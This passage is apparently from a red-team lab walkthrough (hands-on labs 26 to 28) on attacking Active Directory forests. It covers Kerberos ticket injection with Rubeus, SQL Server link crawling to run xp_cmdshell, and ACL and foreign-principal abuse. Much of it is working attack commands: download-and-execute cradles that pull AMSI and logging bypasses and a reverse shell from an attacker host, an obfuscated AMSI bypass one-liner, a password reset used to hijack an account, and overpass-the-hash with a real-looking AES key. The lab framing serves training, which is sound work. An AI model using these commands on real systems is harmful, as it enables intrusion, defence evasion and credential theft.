asktgs

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:http/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFOzCCBTegAwIBBaEDAgEWooIERDCCBEBhggQ8MIIEOKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCBAQwggQAoAMCARehAwIBA6KCA/IEggPuLjDRULXPSFnSremEXsVfPWoavRx3rMIm+G2ZHNIu1Kwyckvj29DNb+5MNA2FqAAJKVT0crWZfdOGwbW9STmDaXuiEN9cLNTHUVc5eGYjEQwH1yyITUBLuqJ+TxBwYzUJ+pIUISJ0XGaWN8faY8dPKktQnSvXzlvtlRmVRBjmtF5OR0Bvfc1sjhXKaG5TsRU363FZ6s6tu7k9wphUrtL2kRlwcD/bht+NJu7ARS6KHfIVvB3MYPC1F7djyKGuv0Tbd1+OSJ5aXGFibqEjjQyEXBv8TnHRby3+pNCrhdR0xXQUlSf0PwojfAgT4ZCDmlK+Co4LisESCJVvOt7q42AWHzPwOiUFp467voZ7RTdzIT6M6LmL5NI85ywL0ZS4eUWbR8k0yYfBrZEkWA9bVPm3HuhyEqytc+evR1pCIuQDttL3EYU4nfIjbDez44pjoEreiLv4zdFLYBOHDbetEbw76mKtickDjqYT1ka3H/QVLWpVQhd9WWDWHvcZAp7p11LpN2vvQW7r/7WDb9vPem30/yyCbGycoI4GJeMoqnkMXTCy5IA05K3ZDHmgK4AFSNeczFSDkQ3/G5MfKSCLIF7dkzffymCsggd9Qyo340fuNtsfeDLDuOHFZTwS7bNcbUFAwGOZ3q03hoHwIAuxKARlCaEd1TdaWfGbiTp4B82v2bD3ToUWuESnqAGvhDvuQ9exezkBFpOlEWqZG5ZjVfLBH5t9ZU7sAuRfg6mODQCyoJ3KCpAThCC4q5ZzWSEAQiPxIRqSegNoBtmkoiejAcPl7rhJR1iTnnJque7QibiZS852/xV4eakJkh3r/XyYlm4V+o2DAb73jmaq0WMJJmYKYgXacsji+zPuFrMS+lvQXLxawsZ1qElp7Mfc0UMhRLrheGuJN1H1mTijPvdVF+YIuNSUO6zpBxtZgRTdCQHIOAvu+zkkUw77Wl1U3BPkN4tyzozzhphAKRZAop+9y1w/Ewx0QKkMmNbB7fa9Dby+934E7n7NOJ2xpurcnR8xPgLzDeSF+1ynNKmeAl22+D6YZZwMFCBlQDUAGE1R28kiPAldRA61sRlfcar3RY3zZchvv4fNTjHiJF2FZr8d7luErndRIG/S2lDzcz1XJ6i4R9+bZg9UpP8itVez0psqpbeiHpSdK6CLzKnnp0MAOOLoPVCTZmdHPS91d430nG0HMMXXCTo1Ig1tum9PymBIqzrY4kxbIiaxFmAIS/9Ax5mixOoAEQJgpAX3uD8eEtijH6C7Ax9dzAPD9W4UCeB5UOi0ThPtubnoq2XlJkaUezDvOYbLqgQWV0y+YnHXLAPGjYAysRyO4jPnwLfTc8YuF6OB4jCB36ADAgEAooHXBIHUfYHRMIHOoIHLMIHIMIHFoBswGaADAgEXoRIEEKFJBIy2MIh/12//5O8yQAehChsIRVUuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBAoAAApBEYDzIwMjUwNTAyMTYxNDE0WqURGA8yMDI1MDUwMjE2MTQxNFqmERgPMjAyNTA1MDMwMjE0MTRapxEYDzIwMjUwNTA5MTYxNDE0WqgKGwhFVS5MT0NBTKkdMBugAwIBAqEUMBIbBmtyYnRndBsIZXUubG9jYWw=

[SNIP]

[*] Action: Ask TGS

[SNIP]

  ServiceName              :  http 📌/euvendor-net.euvendor.local 🖥️
  ServiceRealm             :  EUVENDOR.LOCAL 🏛️
  UserName                 :  Administrator
  UserRealm                :  EU.LOCAL
  StartTime                :  5/2/2025 9:14:50 AM
  EndTime                  :  5/2/2025 7:14:14 PM
  RenewTill                :  5/9/2025 9:14:14 AM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  4w3cIJoMPUmEIwmtkapBihpUYIkiougkgMWvMXk/rYQ=
```

Finally, try accessing the `euvendor-net` machine.

```
C:\Users\Administrator> winrs -r:euvendor-net.euvendor.local cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator.EU>
🚀

C:\Users\Administrator.EU> set username

USERNAME=Administrator 👤

C:\Users\Administrator.EU> set computername

COMPUTERNAME=EUVENDOR-NET 🖥️

C:\Users\Administrator.EU> whoami /groups

GROUP INFORMATION
-----------------

[SNIP]

EU\Enterprise Admins                 Group            S-1-5-21-3657428294-2017276338-1274645009-519 Mandatory group, Enabled by default, Enabled group
EU\Domain Admins                     Group            S-1-5-21-3657428294-2017276338-1274645009-512 Mandatory group, Enabled by default, Enabled group

[SNIP]

EUVENDOR\euadmins 👥                 Group            S-1-5-21-4066061358-3942393892-617142613-1103 Mandatory group, Enabled by default, Enabled group

[SNIP]
```

---
---

## Cross-Forest SQL Server Link Abuse

### Lab: Hands-On #26

#### Tasks

- Get a reverse shell on a `db-sqlsrv` in `db.local` forest by abusing database links from `us-mssql`

#### Solution

- Get a reverse shell on a `db-sqlsrv` in `db.local` forest by abusing database links from `us-mssql`

Let's first enumerate database links on all the SQL servers, we just need public access on for that.
Let's see if `studentuser51` has that access on any database in the domain. We will use PowerUpSQL for this.

```
PS C:\Users\studentuser51> Import-Module C:\AD\Tools\PowerupSQL-master\PowerupSQL.psd1

PS C:\Users\studentuser51> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

[SNIP]

ComputerName           : us-mssql.us.techcorp.local 🖥️
Instance               : US-MSSQL
DomainName             : US
ServiceProcessID       : 3020
ServiceName            : MSSQLSERVER
ServiceAccount         : US\dbservice
AuthenticationMode     : Windows and SQL Server Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 14.0.1000.169
SQLServerMajorVersion  : 2017
SQLServerEdition       : Developer Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : US\studentuser51 👤
IsSysadmin             : No 📌
ActiveSessions         : 1
```

So we have non-sysadmin access to `us-mssql`.

Let's enumerate database links for `us-mssql`.

```
PS C:\Users\studentuser51> Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose

[SNIP]

ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 0
DatabaseLinkName       : US-MSSQL
DatabaseLinkLocation   : Local 📌
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : True
is_data_access_enabled : False
modify_date            : 7/7/2019 9:48:29 AM

ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 1
DatabaseLinkName       : 192.168.23.25 🖥️
DatabaseLinkLocation   : Remote 📌
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : False
is_data_access_enabled : True
modify_date            : 7/9/2019 6:54:54 AM
```

So, there is a database link to a SQL server from `us-mssql` server.

**HeidiSQL**

Using HeidiSQL client, let's login to `us-mssql` using windows authentication of `studentuser51`. Once logged-in, use openquery to enumerate linked databases.

```sql
select * from master..sysservers
```

It is possible to nest openquery within another openquery which leads us to ops-file.

```sql
select * from openquery("192.168.23.25",'select * from master..sysservers')


select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

**PowerUpSQL**

We can also use `Get-SQLServerLinkCrawl` from PowerUpSQL for crawling the database links automatically.

```
PS C:\Users\studentuser51> Get-SQLServerLinkCrawl -Instance us-mssql -Verbose

[SNIP]

Version     : SQL Server 2017
Instance    : US-MSSQL 🖥️
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL} 🔗
User        : US\studentuser51 👤
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD 🖥️
CustomQuery :
Sysadmin    : 1 📌
Path        : {US-MSSQL, 192.168.23.25} 🔗
User        : dbuser 👤
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV 🖥️
CustomQuery :
Sysadmin    : 1 📌
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV} 🔗
User        : sa 👤
Links       :
```

So, we do have database links to other SQL Servers.

If `xp_cmdshell` is enabled (or RPC Out is true that allows us to enable `xp_cmdshell`), it is possible to execute commands on any node in the database links using the below commands.

Try to execute a command on each node where `xp_cmdshell` is enabled.

```
PS C:\Users\studentuser51> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''

[SNIP]

Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser51
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD 🖥️
CustomQuery : {nt service\mssqlserver, } 📌
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

Looks like we can run operating system commands on `DB-SQLPROD` instance.

Let's try to execute a PowerShell reverse shell. We must first start a listener from Invisi-Shell.

```
PS C:\Users\studentuser51> Import-Module C:\AD\Tools\powercat.ps1

PS C:\Users\studentuser51> powercat -l -v -p 443 -t 1000

VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)

[CONTINUE]
```

Now, use the PowerShell download execute cradle to run the reverse shell on `DB-SQLPROD`.

```
PS C:\Users\studentuser51> notepad C:\AD\Tools\Invoke-PowerShellTcpEx.ps1

[SNIP]

reverse -Reverse -IPAddress 192.168.100.51 -Port 443
```

Note that in the below command, we first run an ScriptBlock logging bypass, then an AMSI bypass and finally, the reverse shell.

```
PS C:\Users\studentuser51> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.51/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.51/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.51/Invoke-PowerShellTcpEx.ps1)"'''

[SNIP]
```

On listener on `192.168.100.51`, note that you may need to press `<Enter>` couple of times on powercat listener to wake it up from slumber.

```
[CONTINUE]

VERBOSE: Connection from [192.168.23.25] port  [tcp] accepted (source port 53479)
VERBOSE: Setting up Stream 2...
VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...

Windows PowerShell running as user MSSQLSERVER on DB-SQLPROD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Windows\system32>
🚀

PS C:\Windows\system32> whoami

nt service\mssqlserver 👤

PS C:\Windows\system32> hostname

DB-SQLPROD 🖥️
```

Because the link from `DB-SQLPROD` to `DB-SQLSRV` is configured to use `sa`, we can enable RPC Out and `xp_cmdshell` on `DB-SQLSRV`.

Run the below commands on the reverse shell we got above.

⚠️ Ignore the scary looking message after the first command. 

```
PS C:\Windows\system32> Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

Import-Module : The specified module 'SQLASCmdlets' was not loaded because no valid module file was found in any module directory.

[SNIP]

PS C:\Windows\system32> Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

PS C:\Windows\system32> Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""

PS C:\Windows\system32> Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""

PS C:\Windows\system32> exit
```

Let's try to execute commands on all the link nodes again and check if it works on `DB-SQLSRV` too.

```
PS C:\Users\studentuser51> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''

[SNIP]

Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser51
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD 🖥️
CustomQuery : {nt service\mssqlserver, } 📌
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV 🖥️
CustomQuery : {db\srvdba, } 📌
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

Remember to start the listener before running the below command.

```
PS C:\Users\studentuser51> powercat -l -v -p 443 -t 1000

VERBOSE: Set Stream 1: TCP
VERBOSE: Set Stream 2: Console
VERBOSE: Setting up Stream 1...
VERBOSE: Listening on [0.0.0.0] (port 443)

[CONTINUE]
```

**HeidiSQL**

Now, to execute commands only on a particular node (i.e. `DB-SQLSRV`), use the below command in HeidiSQL.

```sql
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.51/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.51/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.51/Invoke-PowerShellTcp.ps1)"'''''')')
```

**PowerUpSQL**

Or use the below command from PowerUpSQL.

```
PS C:\Users\studentuser51> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.51/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.51/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.51/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv

[SNIP]
```

On the listener.

```
[CONTINUE]

VERBOSE: Connection from [192.168.23.36] port  [tcp] accepted (source port 53847)
VERBOSE: Setting up Stream 2...
VERBOSE: Both Communication Streams Established. Redirecting Data Between Streams...

Windows PowerShell running as user srvdba on DB-SQLSRV
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
🚀

PS C:\Windows\system32> whoami

db\srvdba 👤

PS C:\Windows\system32> hostname

DB-SQLSRV 🖥️
```

---
---

## Cross-Forest Foreign Security Principals & ACLs Abuse

### Lab: Hands-On #27

#### Tasks

- Using the reverse shell on `db.local`, execute cross forest attack on `dbvendor.local` by abusing ACLs
- Enumerate FSPs for `db.local` and escalate privileges to DA by compromising the FSPs

#### Solution

- Using the reverse shell on `db.local`, execute cross forest attack on `dbvendor.local` by abusing ACLs

On the reverse shell we have obtained on `db-sqlsrv` in the previous hands-on (#26), we can use PowerView to enumerate ACLs.

Run the following commands on the reverse shell.
We are bypassing AMSI first and then using a download-execute cradle to load PowerView.

```
PS C:\Windows\system32> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

PS C:\Windows\system32> iex (New-Object Net.WebClient).DownloadString('http://192.168.100.51/PowerView.ps1')
```

```
PS C:\Windows\system32> Get-Forest

RootDomainSid         : S-1-5-21-2781415573-3701854478-2406986946
Name                  : db.local 🏰
Sites                 : {Default-First-Site-Name}
Domains               : {db.local}
GlobalCatalogs        : {DB-DC.db.local}
ApplicationPartitions : {DC=ForestDnsZones,DC=db,DC=local, DC=DomainDnsZones,DC=db,DC=local}
ForestModeLevel       : 7
ForestMode            : Unknown
RootDomain            : db.local
Schema                : CN=Schema,CN=Configuration,DC=db,DC=local
SchemaRoleOwner       : DB-DC.db.local
NamingRoleOwner       : DB-DC.db.local

PS C:\Windows\system32> Get-ForestTrust

TopLevelNames            : {dbvendor.local}
ExcludedTopLevelNames    : {}
TrustedDomainInformation : {dbvendor.local}
SourceName               : db.local 🏰
TargetName               : dbvendor.local 🏰
TrustType                : Forest 📌
TrustDirection           : Bidirectional 🔗
```

Enumerate interesting ACLs in the `dbvendor.local` domain.

```
PS C:\Windows\system32> Find-InterestingDomainAcl -ResolveGUIDs -Domain dbvendor.local

[SNIP]

ObjectDN                : CN=db51svc 👤,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll 🔐
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba 👤
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

ObjectDN                : CN=db52svc,CN=Users,DC=dbvendor,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-2781415573-3701854478-2406986946-1105
IdentityReferenceName   : srvdba
IdentityReferenceDomain : db.local
IdentityReferenceDN     : CN=srvdba,CN=Users,DC=db,DC=local
IdentityReferenceClass  : user

[SNIP]
```

So, `srvdba` has GenericAll over `dbXsvc` users in `dbvendor.local` domain.

⭐ We can do many things with GenericAll on a user object like reset Password, set SPN on user, etc.

Reset password of `db51svc` user.

```
PS C:\Windows\system32> Set-DomainUserPassword -Identity db51svc -AccountPassword (ConvertTo-SecureString 'P@ssw0rd1!' -AsPlainText -Force) -Domain dbvendor.local –Verbose
```

We just got access to the `db51svc` user in `dbvendor.local`.

- Enumerate FSPs for `db.local` and escalate privileges to DA by compromising the FSPs

Run the below commands on the reverse shell.

```
PS C:\Windows\system32> Find-ForeignGroup –Verbose

GroupDomain             : db.local 🏛️
GroupName               : Administrators 👥
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-15620 📌
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-15620,CN=ForeignSecurityPrincipals,DC=db,DC=local

GroupDomain             : db.local 🏛️
GroupName               : Administrators 👥
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=db,DC=local
MemberDomain            : db.local
MemberName              : S-1-5-21-569087967-1859921580-1949641513-15619 📌
MemberDistinguishedName : CN=S-1-5-21-569087967-1859921580-1949641513-15619,CN=ForeignSecurityPrincipals,DC=db,DC=local

[SNIP]
```

And no surprise, the FSPs who are part of the built-in 'Administrators' group are the `dbXsvc` users.

```
PS C:\Windows\system32> Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-15619'}

logoncount            : 0
badpasswordtime       : 12/31/1600 4:00:00 PM
distinguishedname     : CN=db69svc,CN=Users,DC=dbvendor,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : db69svc
userprincipalname     : db69svc
name                  : db69svc
objectsid             : S-1-5-21-569087967-1859921580-1949641513-15619 📌
samaccountname        : db69svc 👤
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 7/2/2024 9:39:27 AM
instancetype          : 4
usncreated            : 135355
objectguid            : a7402bc2-c8f2-4d7d-987f-3080f9f0e8fc
sn                    : svc
lastlogoff            : 12/31/1600 4:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=dbvendor,DC=local
dscorepropagationdata : {7/2/2024 9:39:27 AM, 7/2/2024 9:39:27 AM, 1/1/1601 12:00:00 AM}
givenname             : db69
lastlogon             : 12/31/1600 4:00:00 PM
badpwdcount           : 0
cn                    : db69svc
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 7/2/2024 9:39:27 AM
primarygroupid        : 513
pwdlastset            : 7/2/2024 2:39:27 AM
usnchanged            : 135360
```

This means, we can escalate privileges in `db.local` by using credentials of `db51svc`.

We can use winrs or PowerShell Remoting cmdlets.

**winrs**

```
PS C:\Windows\system32> winrs -r:db-dc.db.local -u:dbvendor\db51svc -p:P@ssw0rd1! "whoami"

dbvendor\db51svc 👤
```

**PowerShell Remoting**

```
PS C:\Windows\system32> $passwd = ConvertTo-SecureString 'P@ssw0rd1!' -AsPlainText -Force

PS C:\Windows\system32> $creds = New-Object System.Management.Automation.PSCredential ("dbvendor\db51svc", $passwd)

PS C:\Windows\system32> $dbdc = New-PSSession -Computername db-dc.db.local -Credential $creds

PS C:\Windows\system32> Invoke-Command -scriptblock{whoami;hostname} -Session $dbdc

dbvendor\db51svc 👤
DB-DC 🖥️
```

---
---

## Cross-Forest PAM Trust Abuse

### Lab: Hands-On #28

#### Tasks

- Compromise `production.local` by abusing PAM trust between `bastion.local` and `production.local`

#### Attack Path Steps

1. Access `bastion-dc` as local administrator
2. Check if PAM trust is enabled: first enumerate trusts on `bastion.local`, then enumerate trusts on `production.local` to be sure of PAM trust in use
3. Check the membership of Shadow Security Principals on `bastion.local`
4. 

#### Solution

- Compromise `production.local` by abusing PAM trust between `bastion.local` and `production.local`

First, we need to compromise `bastion.local`.
We have DA on `techcorp.local` that has a two-way trust with `bastion.local`.

Let's enumerate Foreign Security Principals on `bastion.local` to check if there is anything interesting.

```
C:\Users\studentuser51> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\Users\studentuser51> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\Users\studentuser51> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
PS C:\Users\studentuser51> Get-ADObject -Filter {objectClass -eq "ForeignSecurityPrincipal"} -Server bastion.local

DistinguishedName                                                                                 Name                                          ObjectClass              ObjectGUID
-----------------                                                                                 ----                                          -----------              ----------
CN=S-1-5-4,CN=ForeignSecurityPrincipals,DC=bastion,DC=local                                       S-1-5-4                                       foreignSecurityPrincipal ad6579d8-45de-4c...
CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=bastion,DC=local                                      S-1-5-11                                      foreignSecurityPrincipal 633fa6bf-f6fc-41...
CN=S-1-5-17,CN=ForeignSecurityPrincipals,DC=bastion,DC=local                                      S-1-5-17                                      foreignSecurityPrincipal b24c91f7-7bb6-4f...
CN=S-1-5-9,CN=ForeignSecurityPrincipals,DC=bastion,DC=local                                       S-1-5-9                                       foreignSecurityPrincipal 63104485-ac2d-42...
CN=S-1-5-21-2781415573-3701854478-2406986946-500,CN=ForeignSecurityPrincipals,DC=bastion 🏛️,DC=local S-1-5-21-2781415573-3701854478-2406986946-500 📌 foreignSecurityPrincipal a0ec8796-4175-43...
```

So, the DA of `techcorp.local` is a part of a group on `bastion.local`. To find out which group it is a member of, run the below command.

```
PS C:\Users\studentuser51> Get-ADUser -Filter * -Server techcorp.local | ?{$_.SID -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}

DistinguishedName : CN=Administrator,CN=Users,DC=techcorp,DC=local 🏛️
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : a8ee80ca-edc5-4c5d-a210-b58ca11bd055
SamAccountName    : Administrator 👤
SID               : S-1-5-21-2781415573-3701854478-2406986946-500 📌
Surname           :
UserPrincipalName :
```

```
PS C:\Users\studentuser51> Get-ADGroup -Filter * -Properties Member -Server bastion.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}

DistinguishedName : CN=Administrators,CN=Builtin,DC=bastion,DC=local 🏛️
GroupCategory     : Security
GroupScope        : DomainLocal
Member            : {CN=S-1-5-21-2781415573-3701854478-2406986946-500,CN=ForeignSecurityPrincipals,DC=bastion,DC=local, CN=Domain Admins,CN=Users,DC=bastion,DC=local, CN=Enterprise Admins,CN=Users,DC=bastion,DC=local, CN=Administrator,CN=Users,DC=bastion,DC=local}
Name              : Administrators
ObjectClass       : group
ObjectGUID        : 788f92b1-3806-4eef-bcaa-dd8111f45aa5
SamAccountName    : Administrators 👥
SID               : S-1-5-32-544
```

The administrator of `techcorp.local` is a member of the built-in 'Administrators' group on `bastion.local`. That makes things simple.

Let's access `bastion-dc` as administrator.

Run the below command from an elevated shell on the student VM to use OverPass-The-Hash.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /dc:techcorp-dc.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/techcorp.local
  ServiceRealm             :  TECHCORP.LOCAL
  UserName                 :  administrator
  UserRealm                :  TECHCORP.LOCAL
  StartTime                :  4/30/2025 9:59:27 AM
  EndTime                  :  4/30/2025 7:59:27 PM
  RenewTill                :  5/7/2025 9:59:27 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  WIvP5rCCtCQPVuO5+rBq9wYFPxYXoeNNkzSwxsSQCHI=
  ASREP (key)              :  58DB3C598315BF030D4F1F07021D364BA9350444E3F391E167938DD998836883
```

In the new process that spawns up, run the below commands to download and use Invisi-Shell.

```
C:\Windows\system32> echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\bastion-dc.bastion.local\C$\Users\Public\InShellProf.dll /Y

[SNIP]

C:\Windows\system32> echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\bastion-dc.bastion.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y

[SNIP]

C:\Windows\system32> winrs -r:bastion-dc.bastion.local cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator.TECHCORP>
🚀

C:\Users\Administrator.TECHCORP> set u

USERDNSDOMAIN=TECHCORP.LOCAL 🏛️
USERDOMAIN=TECHCORP
USERNAME=Administrator 👤
USERPROFILE=C:\Users\Administrator.TECHCORP
```

```
C:\Users\Administrator.TECHCORP> C:\Users\Public\RunWithRegistryNonAdmin.bat

[SNIP]
```

Check if PAM trust is enabled. First enumerate trusts on `bastion.local`.

```
PS C:\Users\Administrator.TECHCORP> Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}

Direction               : Outbound
DisallowTransivity      : False
DistinguishedName       : CN=techcorp.local,CN=System,DC=bastion,DC=local
ForestTransitive        : True
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : techcorp.local
ObjectClass             : trustedDomain
ObjectGUID              : 05498dce-bdab-4a88-946d-077d5dd0da16
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=bastion,DC=local
Target                  : techcorp.local
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False

Direction               : Inbound 📌
DisallowTransivity      : False
DistinguishedName       : CN=production.local,CN=System,DC=bastion,DC=local
ForestTransitive        : True 🔗
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : production.local 🏛️
ObjectClass             : trustedDomain
ObjectGUID              : 3e0958ef-54c4-4afe-b4df-672150c1dbfc
SelectiveAuthentication : False
SIDFilteringForestAware : False 📌
SIDFilteringQuarantined : False
Source                  : DC=bastion,DC=local
Target                  : production.local
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False
```

```
PS C:\Users\Administrator.TECHCORP> exit

[SNIP]

C:\Users\Administrator.TECHCORP> exit

C:\Windows\system32> klist

[SNIP]

#1>     Client: administrator @ TECHCORP.LOCAL
        Server: krbtgt/techcorp.local @ TECHCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/30/2025 9:59:27 (local)
        End Time:   4/30/2025 19:59:27 (local)
        Renew Time: 5/7/2025 9:59:27 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Once we know that there is a `ForestTransitive` trust and `SIDFilteringForestAware` is false, enumerate trusts on `production.local` to be sure of PAM trust in use.

